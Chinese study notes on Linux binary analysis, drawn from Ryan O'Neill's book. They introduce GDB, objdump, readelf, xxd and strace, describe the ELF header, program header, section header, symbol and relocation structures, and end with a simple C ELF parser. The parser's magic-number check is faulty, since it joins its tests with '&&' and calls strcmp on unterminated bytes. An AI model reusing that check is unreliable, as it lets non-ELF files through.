# Linux二进制分析

这个文档主要是参考《Learning Linux Binary Analysis》(Ryan O'Neill 著)一书进行知识的汇总。

关于二进制分析或者说是逆向工程都很难在网上找到一个合适的学习路线，而这本书则是我接触二进制分析学习的第一本书，所以这个文档主要是一个读书笔记。

当然，在编写这个文档的时候也参考了网上的其他资料，比如Linux官方手册([man.org](https://man7.org/index.html))，CSAPP，Mooc网上的计算机系统相关课程内容等。

此外，参考资料中也有一些编程实战，这些编程实例能够很好地帮助读者了解具体的原理，但是其中的一些实例相对比较难，所以在这个文档中，将会对原来的一些编程实例在保持核心原理的前提下进行适当的简化。


## 0x00 常用的工具和指令

首先最常见的工具就是GDB，主要是用于调试程序，当然也可以用来查看程序运行时的内部状态，比如代码、寄存器、以及内存，这里简单介绍一些常见命令：
- break: 用于设置断点
- run: 运行程序
- continue: 继续运行到结束或者下一个断点
- disassemble: 输出某个函数的汇编结果
- si: 下一条指令，步入，即进入调用的函数中
- ni: 下一条指令，不步入
- info: 用于收集一些有用信息，比如info file可以输出这个文件的相关信息
- print: 打印一些信息，比如寄存器以及内存内容，比如print *0x401060可以打印地址0x401060处的内容，print $eax，可以打印寄存器eax中的值
- set: 设置某个变量或者寄存器的值

这些就是常用的一些命令，如果想要知道具体怎么用，可以在gdb中使用 help \<command\>来输出该指令的使用方法，比如help break就会输出break指令的使用方法。也就是说每条指令都有其对应的help菜单。

- **objdump**

这个工具用于对可执行文件进行反编译，在反编译一些简单的、未被篡改的二进制文件时非常有用，但是对于一些被处理过的文件就有局限性。因为这个工具发挥作用比较依赖文件的ELF节头，并且不会进行控制流分析。

下面介绍一些常见的用法：

`objdump -D <elf_object>`：用于查看ELF文件中的所有节的数据或代码

`objdump -d <elf_object>`：只查看文件的程序代码

`objdump -tT <elf_object>`：查看文件的符号

但是这个工具非常依赖符号表，如果二进制文件的符号表被删除，那么这个工具就不能使用了。

- **readelf**

这个工具正如它的名字一样，可以用于收集ELf文件的各种有用的信息，比如下面几种常见的命令：

`readelf -h <object>`：查询文件头

`readelf -S <object>`： 查询节头(section header)表

`readelf -l <object>`：查询程序头(program header)表

`readelf -s <object>`：查询符号表

`readelf -r <object>`：查询重定位入口

`readelf -d <object>`：查询动态段

`readelf -n <object>`：查询note段

和objdump类似，这个工具十分依赖ELF头文件。

- **xxd**

这个工具用于以16进制的格式查看ELF格式文件的内容：

`xxd`：以小写的16进制格式查看

`xxd -u`：以大写的16进制格式查看

`xxd -s +10`：从第10个字节开始查看

`xxd -s -10`：从倒数第10个字节开始查看

vim工具中自带了xxd插件，可以允许用户对二进制格式的文件进行查看和修改，但是这样的方法效率比较低。所以这个工具通常用于演示目的。

- **Linux Programmer‘s Manual**

后面会有一些在Linux环境下的编程实战，并且编程过程中会涉及一些平时并不常用但是又十分重要的函数或者系统调用，如果想要对这些函数或这系统调用有更深入的理解的话，比如查看该函数的原型以及参数选项和返回值的具体细节，可以查看Linux手册。

在命令行中输入`man <manual_name>`即可查看对应的手册。

比如，这里想查看"write(2)"手册，那么可以使用命令：`man 2 write`，即可看到该手册中的内容。

在上面的命令中参数 *2* 是手册的版本，如果不指定版本的话，将会打开该函数最早版本的手册。

比如`man write`命令会直接打开"write(1)"手册。

- **strace**

这是一个非常有用的调试工具，能够跟踪目标进程执行期间调用的所有系统调用。

对于只接触过高级编程的读者，可能系统调用的概念还比较模糊，这是因为我们通常都是直接使用libc中封装好了的函数来实现对应的功能，比如：

`printf("Hello World!\n");`

这并不会涉及到系统调用，但是读者需要知道的是，"printf()"底层是通过系统调用"write()"来实现的，也就是说上面的代码用系统调用来表示的话就应该是：

`write(1, "Hello World!\n", 12);`

所以strace不会告诉使用者目标进程调用了库函数"printf()"，而是显示目标进程使用了"write()"系统调用。

当然，读者现在只需要知道有这么一个工具，以及工具的作用。在后面的内容中，我们会介绍一些编程实例，在实现这些方法的过程中，==可以使用strace来调试程序，或者通过strace来了解某个库函数底层是通过什么样的系统调用来实现的==。

> 有些情况下，我们要调试的程序的节头表被删除掉了，或者符号表并不完整，那么这种况下就无法再使用类似于gdb或者objdump的工具来调试我们的程序了。
>
> 但是我们依然可以使用strace来显示程序执行过哪些系统调用。
>
> 比如，如果程序在执行的过程中崩溃(segmentation fault)了，那么我们可以使用strace来了解是哪个系统调用导致程序崩溃的。

对于strace的使用方法，可以参考"strace(1)"手册，但是在理解strace的用法之前，最好对程序的加载过程有一个比较好的了解。

Linux中还有一个名为"ltrace"的工具，不过其功能和"strace"比较类似。


## 0x01 ELF文件格式

这部分内容会介绍ELF(Executable and Linkable Format)格式，这是Unix操作系统下的可执行文件、目标代码、共享库和核心转储的通用标准文件格式，理解ELF格式后能够帮助我们对二进制文件进行分析。

> 在Windows系统下，可执行文件的格式为PE(Portable Executable)，不过这个文档是介绍Linux环境下的二进制分析，所以这里就不介绍PE格式了。

除了ELF文件格式，这部分的内容也会介绍程序如何映射到磁盘并加载到内存中的部分过程。

这部分内容主要的参考资料是手册"ELF(5)"。


### ELF文件头

一个ELF格式的文件可以被标记为以下的几种类型之一：

ET_NONE：未知类型

ET_REL：重定位类型，ELF类型标记为relocatable，意味着文件中含有可重定位代码，这种类型的文件一般被称为**目标文件**

ET_EXEC：可执行类型，ELF类型标记为executable，这种类型的文件也被称为**可执行文件**

ET_DYN：共享目标文件，ELF类型标记为dynamic，意味着文件被标记为一个动态的可连接的目标文件，也被称为**共享库文件**

ET_CORE：核心文件

关于目标文件、共享库文件和程序之间的关系会在后面进行详细的介绍，一般来说比较常见的ELF格式文件就是这是三种类型的文件。

**ELF文件只有一种格式，但是有两种视图，一种是在磁盘中存储时的可重定位elf视图，另一种是在程序加载时的可执行elf视图：**

换句话说，当elf格式的文件存储在磁盘中时，处理器“眼中”的文件是这样的：



而当elf格式的文件要加载运行时，处理器“眼中”的ELF文件是这样的：



由于可重定位目标文件是不能被装载到内存中的，所以可重定位目标文件中的程序头表的大小一般为0。

ELF的文件头结构：

```c
#define EI_NIDENT 16
 typedef struct {
 	unsigned char e_ident[EI_NIDENT];
 	uint16_t 	e_type;
 	uint16_t 	e_machine;
 	uint32_t 	e_version;
 	ElfN_Addr 	e_entry;
 	ElfN_Off 	e_phoff;
 	ElfN_Off 	e_shoff;
 	uint32_t 	e_flags;
 	uint16_t 	e_ehsize;
 	uint16_t 	e_phentsize;
 	uint16_t 	e_phnum;
 	uint16_t 	e_shentsize;
 	uint16_t 	e_shnum;
 	uint16_t 	e_shstrndx;
 } Elf32_Ehdr;
```

\* 为了节省空间，这里只列出了32位的结构，后面也是同样的

这个结构体中的各个成员的含义如下：

- `e_ident`：这个数组中的字节用于指明如何解释这个文件，或者说这个成员用于标注这是一个ELF格式的文件
- `e_type`：这个成员标识ELF格式文件的类型
- `e_machine`：这个成员指明了这个文件所需的指令体系
- `e_version`：这个成员指明文件的版本
- `e_entry`：这个成员指明了程序开始的虚拟地址(通常就是`_start()`函数的虚拟地址)
- `e_phoff`：这个成员指明了程序头表在文件中的偏移量
- `e_shoff`：这个成员指明了节头表在文件中的偏移量
- `e_flags`
- `e_ehsize`：这个成员指明了ELF文件头的大小
- `e_phentisize`：这个成员指明了程序头表中每个条目的大小，所有条目的大小都是一样的
- `e_phnum`：这个成员指明了程序头表中的条目总数
- `e_shentsize`：这个成员指明了节头表中每个条目的大小，所有条目的大小都是一样的
- `e_shnum`：这个成员指明了节头表中的条目总数
- `e_shstrndx`：这个成员存储了一个索引，该索引指向了所有节头名称的字符表

使用`readelf -h <object>`可以查看目标文件的ELF文件头：



这里的hello.o文件是一个可重定位目标文件，所以其程序头表的大小为0。

### 程序头表

在可执行文件或者共享库文件中的程序头表实际上一个结构体数组，这个数组中的每一个成员描述了一个程序段(segment)或者一些系统执行文件需要准备的其他信息。

> 一个段(segment)通常包含多个节(section)

==注意到程序头表实际上是结构体数组，所以在实际编程中应该使用一个指针来保存ELF文件头中e_phoff的值。==

ELF程序头表中的每个条目是下面这种类型的结构体

```c
typedef struct {
 	uint32_t 	p_type;
 	Elf32_Off 	p_offset;
 	Elf32_Addr 	p_vaddr;
 	Elf32_Addr 	p_paddr;
 	uint32_t 	p_filesz;
 	uint32_t 	p_memsz;
 	uint32_t 	p_flags;
 	uint32_t 	p_align;
 } Elf32_Phdr;
```

这个结构体中的各个成员的含义如下：

- `p_type`：这个成员指明了该条目所指向的段的类型，或者指明了如何解释这个条目的信息，后面会详细介绍几种常见的段类型
- `p_offset`：这个成员指明了该条目所指向的段在文件中的偏移量
- `p_vaddr`：这个成员指明了该条目所指向的段的虚拟地址
- `p_paddr`：对于一些与物理寻址相关的系统，这个成员被保留用于物理寻址
- `p_filesz`：这个成员用于保存该条目所指向的段在文件中的所占的字节数
- `p_memsz`：这个成员用于保存该条目所指向的段在内存中所占的字节数
- (`p_flag`)：在64位的系统中，程序头表条目中还包括这样的成员，用于指明该条目所指向段的权限(读、写、执行，成员的取值分别对应4, 2, 1)
- `p_align`：这个成员用于指定程序段在内存以及在文件中的对齐量

下面介绍几种常见的段类型：

1. PT_LOAD：表示该条目所指向的段是可加载段，段在文件中的字节都会被加载到内存中。如果这个段的`p_memsz`的大小大于`p_filesz`，那么“多余”的部分会使用0填充。

   > 一个可执行文件至少有一个PT_LOAD类型的段。

2. PT_DYNAMIC：这种类型的段是动态链接可执行文件所特有的，该条目所指向的段包含了动态链接器所必须的一些信息：

   - 运行时需要链接的共享库列表
   - 全局偏移表(Global Offset Table, GOT)的地址
   - 重定位条目的相关信息

   ***后面的章节会对这部分内容进行详细的介绍***

3. PT_NOTE：这种类型的段用于描述保存note的位置，而这里的note实际上是指与特定供应商或者系统相关的附加信息

4. PT_INTERP：这种类型的段只对可执行文件来说是有意义的（尽管会出现各种类型的目标文件中）并且只有一个，用于以字符串的形式存储解释器（或者称为动态链接器，用于执行动态链接，具体的工作是解析程序中对共享库函数的引用）的地址

5. PT_PHDR：这种类型的段保存了程序头表本身的位置和大小

可以使用命令`readelf -l <object>`来查看文件的程序头表以及段(segment)和节(section)的映射关系：



可以看到程序的入口点是0x8048310，这里需要注意的是中间的两个LOAD类型的段，它们的对齐量都是0x1000字节(4KB)，这正好是一个内存页的大小，并且从下面的段-节映射关系可以看到，第一个LOAD段中包含.text节，所以这个段的执行权限也是RX，一般将这个段称为==代码段==；而第二个LOAD段中包含.data节，所以这个段的执行权限也是RW，一般将这个段称为==数据段==。

### 节头表

这里需要再说明一下段与节的关系，段是程序执行的必要组成部分，**在每个段中，会有代码或者数据被划分为不同的节**。节头表是对这些节的位置和大小的描述，主要用于链接和调试。节头对于程序的执行来说不是必需的，没有节头表，程序仍可以正常执行，因为**节头表没有对程序的内存布局的描述，对程序的内存布局的描述是程序头表的任务。**

如果没有节头表，gdb和objdump这样的工具则没法发挥作用。

==同样地，在实际的编程中应该使用一个指针来保存ELF头中的e_shoff的值。==

同样，节头表也是一个结构体数组，这个结构体的结构如下图所示：

```c
typedef struct {
	uint32_t 	sh_name;
	uint32_t 	sh_type;
	uint32_t 	sh_flags;
	Elf32_Addr 	sh_addr;
	Elf32_Off 	sh_offset;
	uint32_t 	sh_size;
	uint32_t 	sh_link;
	uint32_t 	sh_info;
 	uint32_t 	sh_addralign;
 	uint32_t 	sh_entsize;
 } Elf32_Shdr;
```

下面介绍这个结构中各个成员所代表的含义：

- `sh_name`：这个成员指明了这个节的名称，这个成员中保存的是一个索引，根据这个索引可以在节头字符串表中找到对应节的字符串名称
- `sh_type`：这个成员指明了这个节的类型
- `sh_flags`：有一比特的flag来描述这些属性是否有效，如果是有效的，则意味着这个节具备这些属性，否则就意味着这个节不具备这些属性，一般有下面几种属性：
  - SHF_WRITE：这个节中的数据在程序执行时是可重写的
  - SHF_ALLOC：这个节在程序执行时是占用内存的
  - SHF_EXECINSTER：这个节中包含可执行的机器指令
  - SHF_MASKPROC：此掩码中包含的所有比特都保留用于特定处理器的语义
- `sh_addr`：如果这个节会被加载到内存，那么这个成员中就保留这个节的第一个字节在内存中的位置
- `sh_offset`：这个成员描述了这个节在文件中的位置
- `sh_size`：这个成员保存了这个节的字节数
- `sh_link`：这个成员保存了节头表的索引链接，其解释取决于节类型
- `sh_info`：这个成员保存了一些额外的信息，其解释取决于节类型
- `sh_addralign`：一些类型的节有对其要求，因此这样的节的`sh_addr`模`sh_addralign`必须为0，通常这个成员的取值都是2的整数次方，如果这个成员的值为0或者1，则意味着没有对其要求
- `sh_entsize`：一些类型的节中保存了一个包含固定大小条目的表，比如符号表，对于这样的节，这个成员给出了这些条目的大小，如果这个成员的取值为0，则意味着这个节中并没有表

下面介绍一些比较常见的节：

.text节：

​	.text节是保存了程序代码指令的代码节，一段可执行的程序，如果存在Phdr，.text节就会存在于text段中。由于.text节保存了程序代码，因此节的类型为SHT_PROGBITS。这个类型的节意味着这个节中的信息由程序定义，并且这些信息的格式以及含义严格取决于程序。

.rodata节

​	.rodata节保存了只读的数据，比如C语言代码中的字符串。因为.rodata节是只读的，所以只能在text段（而不是data段）找到.rodata节。并且节的类型是SHT_PROGBITS。

.plt节

​	.plt节中包含了动态链接i去调用从共享库导入的函数所必须的相关代码，存于与text段中，同样保存了代码，所以其类型是SHT_PROGBITS。

.data节

​	.data节存在于data段中，保存了初始化的全局变量等数据。其节的类型为SHT_PROGBITS。

.bss节

​	.bss节保存了未进行初始化的全局数据，是data段的一部分，占用空间不超过4字节，仅表示这个节本身的空间。程序加载时数据被初始化为0，在程序执行期间可以进行赋值。因为这个节没有保存实际的数据，因此节的类型为SHT_NOBITS，这个类型意味这个节不占用文件的空间，除此之外与SHT_PROGBITS类型是一样的。 

.got.plt节

​	这个节用于动态链接，会在后面进行详细的介绍。因为这个节与程序执行有关，因此节类型被标记为SHT_PROGBITS。

.dynsym节

​	.dynsym节保存了从共享库带入的动态符号信息，该节保存在text段中，节类型被标记为SHT_DYNSYM，表示这个节中的信息用于动态链接，一个目标文件可能只包含一个此类型的节。

.dynstr节

​	.dynstr节中保存了需要进行动态链接的符号字符串表，这些符号代表了需要进行链接的符号名称，这个节的类型是SHT_STRTAB，表示这个节中保存了一个字符串表。

.rel.NAME节

​	这种节保存了一些重定位相关的信息。如果文件中包含可加载的段，那么这个节的就会包括SHF_ALLOC。这里的NAME是指需要进行重定位的节，比如对于.text节的重定位节，那么这个节的名称就是.rel.text。这个节的类型是SHT_REL，表示了这个节保存了重定位偏移量，并且没有显示的加数，比如32位系统中的Elf32_Rel条目。

.hash节

​	.hash节有时也被称为.gnu.hash，保存了一个用于查找符号的散列表。

.symtab节

​	.symtab节用于保存符号表，如果.symtab节所在的段是可加载的，那么.symtab节的属性也会包括SHF_ALLOC，这个节的类型是SHT_SYMTAB，一般来说，这个节用于为静态链接提供符号，尽管有时候也会用于动态链接。

.strtab节

​	.strtab节保存的是字符串表，表的内容会被.symtab节引用，节的类型是SHT_STRTAB。

.shstrtab节

​	.shstrtab节保存节头字符串表，用于保存每个节的名称，节的类型是SHT_STRTAB。

.ctors节和.dtors节

​	.ctors(构造器)和.dtors(析构器)这两个节保存了指向构造函数和析构函数的函数指针，构造函数是在调用`main()`函数之前需要执行的代码，析构函数是指在调用`main()`函数之后需要执行的代码。

可以使用`readelf -S <object>`命令查看目标文件的节头：



可以发现上面的这些节都是之前介绍过的，但是还有一些节并没有出现，因为有一些节是用于动态链接的。关于动态链接，会在后面进行详细的介绍。

### 符号表

符号是对某些类型的数据或者代码（如全局变量或者函数）的符号引用。在大多数共享库或者动态链接可执行文件中，存在两个符号表：.dynsym和.symtab。

实际上，.dynsym中保存的符号是引用来自外部文件符号的全局符号，比如"printf"这样的库函数，这些符号.symtab中保存的符号的子集。这里之所以要额外使用.dynsym保存一部分符号是因为.dynsym的属性是被标记了ALLOC了的，而.symtab则没有被标记，这部分的区别体现在程序的链接过程。

在一个目标文件中，符号表保存了在定位符号定义以及重定位符号引用过程中需要使用到的信息，符号表的具体形式是下面这样的结构体数组：

```c
typedef struct {
 	uint32_t 		st_name;
 	Elf32_Addr 		st_value;
 	uint32_t 		st_size;
 	unsigned char 	st_info;
 	unsigned char 	st_other;
 	uint16_t 		st_shndx;
 } Elf32_Sym;
```

这个结构体中的各个成员的含义如下：

- `st_name`：这个成员保存了字符串表中的一个索引值，用以代表这个符号的名称，如果这个值为0，则以为这个符号没有名称
- `st_value`：这个成员给定了符号的取值
- `st_size`：这个成员存放了一个符号的大小，如全局函数指针的大小，在一个32位系统中通常是4字节
- `st_info`：这个成员指定了符号类型以及绑定属性
- `st_other`：这个成员定义了这个符号的可见性，有下面几种可见性：
  - STV_DEFAULT：默认的符号可见性规则，全局符号和弱符号能被其他模块(目标文件)引用，本地模块的符号引用能够被其他模块的定义替代
  - STV_INTERNAL：处理器指定的隐藏类型
  - STV_HIDDEN：符号不能被其他模块引用，本地模块的引用总是解析为本地的符号的定义
  - STV_PROTECTED：符号能够被其他模块引用，但是本地模块的引用总是解析为本地模块的定义
- `st_shndx`：这个成员中保存了与这个符号相关联的节头表的索引

这里还需要介绍一下几种常见的符号类型以及绑定属性，在符号表条目中的`st_info`字段指定了对应符号的类型及绑定属性：

1. 符号类型：
   - STT_NOTYPE：符号的类型未被定义
   - STT_OBJECT：符号与数据对象相关联
   - STT_FUNC：符号与一个函数或者其他可执行代码相关联
   - STT_SECTION：符号与一个节相关联，这种类型的符号表条目主要用于重定位，通常是STB_LOCAL属性的绑定
   - STT_FILE：这种类型的符号给定与目标文件相关联的源文件的名称
   - STT_LOPROC, STT_HIPROC：区间[STT_LOPROC, STT_HIPROC]内的取值被保留用于处理器指定语义
2. 符号绑定：
   - STB_LOCAL：本地符号在目标文件之外是不可见的，目标文件包含了符号的定义，比如声明一个static的函数
   - STB_GLOBAL：全局符号对于所有要合并的目标文件来说都是可见的，一个全局符号在一个文件中进行定义后，另外一个文件可以对这个符号进行引用
   - STB_WEAK：与全局绑定类型，不过比全局绑定的优先级低，并且被标记为STB_WEAK的符号可能会被同名的未被标记为STB_WEAK的符号覆盖，通常声明一个符号而不对其进行定义则会生成一个弱绑定类型的符号
   - STB_LOPROC, STB_HIPROC：区间[STB_LOPROC, STB_HIPROC]内的取值被保留用于处理器指定语义

下面通过一个列子来介绍符号的类型以及绑定属性：

```c
/* test.c */
#include <sys/syscall.h>

static inline void foochu(){
    /* Do nothing */
}

void func1(){
    /* Do nothing */
}

int _start(){
    func1();
    foochu();
    return 0;
}
```

在上面的代码中，使用了关键字static来定义了一个函数，现在对这个命令进行编译：

`gcc -nostdlib test.c -o test`

然后使用`readelf -s test | egrep 'foochu|func1'`命令查看这两个函数在符号表中的信息：



可以看到，两个函数`foochu()`和`func1()`的符号类型都是FUNC，可见性都是DEFAULT，但是"foochu"的绑定类型是LOCAL，而“func1”的绑定类型是GLOBAL。因为在源码中使用static关键字声明了函数`foochu()`所以这个函数是本地的。

### 重定位

==重定位实际上就是将符号引用与符号定义进行联系的过程==。

> Relocation is the process of connecting symbolic references with symbolic definitions.

可重定位文件中必须含有如何修改该文件中的节内容的相关信息，从而保证可执行文件和共享目标文件能够保存进程的程序映像所需的正确信息。而重定位条目正是上面所说的相关信息。

用于创建可执行文件和共享库的/bin/ld，需要某种类型的元数据来描述如何对特定的指令进行修改，这种元数据就存放在前面提到过的重定位条目中。

**目标文件是可重定位的代码，也就是说，目标文件中的代码会被重定位到可执行文件的段中一个给定的地址。**

在重定位之前，无法确定目标文件中的符号和代码在内存中的位置（因为目标文件无法直接加载到内存中），也就无法对这些符号和代码进行引用。只有在链接器确定了可执行文件的段中存放的指令或者符号的位置之后才能对符号引用补充上对应的符号定义。

重定位条目的结构：

```c
typedef struct {
 	Elf32_Addr 	r_offset;
 	uint32_t 	r_info;
 } Elf32_Rel;
```

以及一些需要显示加数的重定位条目：

```c
typedef struct {
 	Elf32_Addr 	r_offset;
 	uint32_t 	r_info;
 	int32_t 	r_addend;
 } Elf32_Rela;
```

这个结构体中各个成员的含义如下所示：

- `r_offset`：这个成员给出了需要进行重定位操作的位置。对于可重定位文件，这个成员的值是从节开始的地方到重定位影响到的存储单元的偏移量；对于可执行文件或者共享库目标文件，这个成员的值是重定位影响到的存储单元的虚拟地址。
- `r_info`：这个成员给出了给出了需要进行重定位的对应符号在符号表中的索引，以及重定位操作的类型，重定位的类型是由处理器指定的。可以对这个成员使用宏指令`ELF32_R_TYPE`或者`ELF32_R_SYM`来分别取出对应的重定位类型和符号表索引。
- `r_addend`：这个成员指定了一个常数，这个常数用于计算需要进行重定位的存储单元中应该存储的值。在没有显示加数的时候，往往在需要进行重定位的存储单元中存储隐式的加数。

可以使用`readelf -r <object>`命令来查看目标文件中的重定位条目，利用上面的test.c文件编译生成的目标文件，来查看其重定位条目：



可以看到test.o文件中有4条重定位条目，其中有一条是在.text节中，重定位的偏移量为离.text开始处0x20字节的位置，然后使用`objdump -d test.o`来查看test.o文件的text节：



而距离.text节开始处0x20字节偏移量的位置正好是call指令的操作数的位置。因为这里是显式加数，所以需要进行重定位的操作数使用0填充。

> 在这个例子中可以发现只有调用函数`func1()`的地方出现了重定位条目，而调用函数`foochu()`的时候并没有出现重定位条目。
>
> 出现这个现象的原因会在介绍符号绑定的内容中介绍。

### ELF Parser

为了加深对ELF文件格式的理解以及学习如何使用代码来处理ELF格式的文件，这里将会编写一个简单的程序用于分析ELF格式文件，其功能与readelf类似，但是不会像readelf那样庞大。

在开始之前需要先介绍一些会使用到的工具：

**unistd.h**

“unistd.h”头文件中定义了各种标准符号常量及类型，并且声明了一些标准函数。

更多细节可以参考手册"unistd.h(0p)"。

**errno.h**

“errno.h”头文件中定义了整数类型"errno"，用于某些系统调用或者函数在遇到错误事件时设置一个值，用于描述是什么错误。

更多细节可以参考手册“errno(3)”

**sys/stat.h**

在库文件“sys/stat.h”中定义了一个名为stat的结构体，这个结构体的数据用于描述当前进程打开了的文件的状态，也是`fstat()`函数、`lstat()`函数以及`stat()`函数的返回类型。

stat结构体中至少包含下面这些成员：

```c
/* Member */			 /* Description */

dev_t st_dev;            // Device ID of device containing file.
ino_t st_ino;            // File serial number.
mode_t st_mode;          // Mode of file (see below).
nlink_t st_nlink;        // Number of hard links to the file.
uid_t st_uid;            // User ID of file.
gid_t st_gid;            // Group ID of file.
dev_t st_rdev;           // Device ID (if file is character or block special).
off_t st_size;           // For regular files, the file size in bytes.
                         // For symbolic links, the length in bytes of the pathname 								contained in the symbolic link.
                         // For a shared memory object, the length in bytes.
                         // For a typed memory object, the length in bytes.
                         // For other file types, the use of this field is unspecified.
struct timespec st_atim; // Last data access timestamp.
struct timespec st_mtim; // Last data modification timestamp.
struct timespec st_ctim  // Last file status change timestamp.
blksize_t st_blksize     //	A file system-specific preferred I/O block size for this 								object. In some file system types, this may vary from file to 							  file.
blkcnt_t st_blocks;      // Number of blocks allocated for this object.
```

更多细节可以参考"sys_stat.h(0p)"手册。

**open()**

函数原型：

```c
#include <fcntl.h>

int open(const char *pathname, int flags);
int open(const char *pathname, int flags, mode_t mode);
```

`open()`系统调用会打开由 *pathname* 参数指定的文件，如果这个参数所指定的文件不存在，那么如果 *flag* 参数如果被指定为O_CREAT的话就会创建一个文件。

`open()`的返回值是一个文件描述符，是一个比较小的非负整数，这个整数实际上是进程已开启文件列表中的对应文件的索引值，而这个索引值会被用于其他的系统调用来引用对应的已开启的文件。如果返回值小于0，那就说明开启文件的过程出现了错误，文件开启失败。

此外，`open()`系统调用的参数 *flags* 必须包含几种访问模式中的一种：O_RDONLY. O_WRONLY 或者 O_RDWR，这些请求分别对应与只读、只写或者读写。

更多细节可以参考"open(2)"手册。

**fstat()**

函数原型：

```c
#include <sys/stat.h>
int fstat(int fildes, struct stat *buf);
```

`fstat()`函数用于获取一个已开启文件的状态信息，这个文件由参数 *fildes* 通过文件描述符索引的方式指定，并且将获取到的信息写入 *buf* 指针指向的地址。如果成功获取了对应的信息，那么`fstat()`函数将会返回0，否则会返回-1。

更多细节可以参考“fstat(3p)”手册。

**mmap()**

函数原型：

```c
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```

`mmap()`函数将会在调用该函数的进程的虚拟地址空间中创建一个新的映射。这个新映射的起始地址由参数 *addr*指定，新映射的长度由参数 *length* 指定。

这里使用`mmap()`将ELF文件映射到程序的虚拟地址空间中。这里我需要使用一些结构体指针访问文件中的内容，所以需要将这个文件映射到内存处理。

这个过程和程序的加载过程类似。==mmap()与程序加载的一个区别在于，程序加载会按照可执行文件中指定的虚拟地址进行映射，而mmap()函数会将文件映射到当前进程的一个内存空间中。==

如果参数 *addr* 为空(NULL)，那么内核会选择这个映射的地址，这样的方法对于一个新的映射是最简便的；如果参数 *addr* 不为空，那么内核会将这个参数作为一个参考来选择映射的地址；

在Linux系统上，内核会选择附近页面的边界处（但始终高于或等于/proc/sys/vm/mmap_min_addr指定的值）创建映射。如果那个地方已经存在一个映射，内核会选择一个新的地址，该地址可能与参数有关，也可能与参数无关。

函数会将新映射的地址作为函数的返回值，如果映射失败，那么会返回一个MAP_FAILED。

映射一个文件时，会使用文件从中 *offset* 参数指定的位置，映射 *length* 个字节到虚拟内存。

*prot* 参数指定到的虚拟内存的访问权限：PROT_EXEC, PROT_READ, PROT_WRITE, PROT_NONE。

*flag* 参数决定如果有其他的进程映射到相同的虚拟内存区域，那么这个映射对其他进程是否是可见的：MAP_SHARED, MAP_SHARED_VALIDATE, MAP_PRIVATE。

更多细节可以参考"mmap(2)"手册。


下面是一个64位系统中编写的ELF分析器的源代码：

```c
/* elf_dump.c */
/* gcc elf_dump.c -o elf_dump */
/* usage: elf_dump <object_file> */
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <elf.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/stat.h>
#include <fcntl.h>

int main(int argc, char **argv)
{
    /* Check arguments */
    if(argc < 2)
    {
        printf("Usage: %s <object_file>\n", argv[0]);
        exit(0);
    }

    /* Open the object file */
    int fd = open(argv[1], O_RDONLY);
    if(fd < 0)
    {
        perror("open");
        exit(-1);
    }

    /* Obtain the state information of object file */
    struct stat st;
    int r = fstat(fd, &st);
    if(r < 0)
    {
        perror("fstat");
        exit(-1);
    }

    /* Create a map from the object file to virtual address */
    uint8_t *mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    /* mem should be declared as uint8_t pointer */ 
    /* since we will acess the bytes of the file later */
    if(mem == MAP_FAILED)
    {
        perror("mmap");
        exit(-1);
    }
    
    /* Check to see if the ELF magic (th first 4 bytes) match up as 0x7f E L F */
    if(mem[0] != 0x7f && strcmp(&mem[1], "ELF"))
    {
        fprintf(stderr, "%s is not an ELF file!\n", argv[1]);
        exit(-1);
    }

    /* The initial ELF header starts at offset 0 of our mapped memory */
    Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
    
    printf("Parse the file header:\n");

    /* Parse the type of ELF-format file */
    switch(ehdr -> e_type)
    {
        case ET_REL:
        printf("%s is a relocatable object file\n\n", argv[1]);
        break;
        
        case ET_EXEC:
        printf("%s is a executable object file\n\n", argv[1]);
        break;
        
        case ET_DYN:
        printf("%s is a dynamic shared library\n\n", argv[1]);
        break;
        
        case ET_CORE:
        printf("%s is a core file\n\n", argv[1]);
        break;

        case ET_NONE:
        printf("%s is an unkonwn type elf-format file\n\n", argv[1]);
        break;

        default:
        printf("Something goes wrong\n\n");
        break;
    }

    if(ehdr -> e_entry == 0)
        printf("This file has no associated entry point.\n\n");
    else
        printf("Program entry point: 0x%lx\n\n", ehdr -> e_entry);
    if(ehdr -> e_phoff == 0)
        printf("This file has no program header.\n");
    else
        printf("Program header table at: %ld in this file", ehdr -> e_phoff);
    if(ehdr -> e_shoff == 0)
        printf("This file has no section header.\n");
    else
        printf("Section header table at: %ld in this file\n", ehdr -> e_shoff);
    
    if(ehdr -> e_shoff != 0)
    {
        /* Parse the section header of this file */
        Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr -> e_shoff];
        printf("\n\nSection header list:\n");
        /* Obtain the section header string table */
        char *StringTable = &mem[shdr[ehdr -> e_shstrndx].sh_offset];
        int i;
        printf("Section Name\t\t Virtual Address\n");
        for(i = 1; i < ehdr -> e_shnum; i++)
        {
            char *shstr = &StringTable[shdr[i].sh_name];
            printf("%s", shstr);
            int len = strlen(shstr);
            for(int j = 0; j < 20 - len; j++) putchar(' ');
            printf("\t 0x%lx\n", shdr[i].sh_addr);
        }
    }

    if(ehdr -> e_phoff != 0)
    {
        /* Parse the program header of this file */
        Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr -> e_phoff];
        printf("\n\nProgram header list:\n");
        printf("Segment Name\t\t Virtual Address\n");
        int i;
        for(i = 0; i < ehdr -> e_phnum; i++)
        {
            switch(phdr[i].p_type)
            {
                case PT_LOAD:
                    if(phdr[i].p_offset == 0)
                        printf("Text segment:\t\t 0x%lx\n", phdr[i].p_vaddr);
                    else
                        printf("Data segment:\t\t 0x%lx\n", phdr[i].p_vaddr);
                break;
                case PT_INTERP:
                {
                    char *interp;
                    interp = strdup((char *)&mem[phdr[i].p_offset]);
                    printf("Interpreter: %s\n", interp);
                    break;
                }
                case PT_DYNAMIC:
                    printf("Dynamic segment:\t 0x%lx\n", phdr[i].p_vaddr);
                break;
                case PT_NOTE:
                    printf("Note segment:\t\t 0x%lx\n", phdr[i].p_vaddr);
                break;
                case PT_PHDR:
                    printf("Program Header segment:\t 0x%lx\n", phdr[i].p_vaddr);
                break;
            }
        }
    }
    return 0;
}
```

这个程序的实现的功能是将一个ELF格式的文件的文件头部分信息、程序头表信息以及节头表信息列举出来。

下图是程序运行的结果：



因为这是一个可重定位文件，所以并不会加载到内存中，节头表中每个节的`sh_vaddr`字段都被初始化为0。

## 0x02 程序的链接与加载

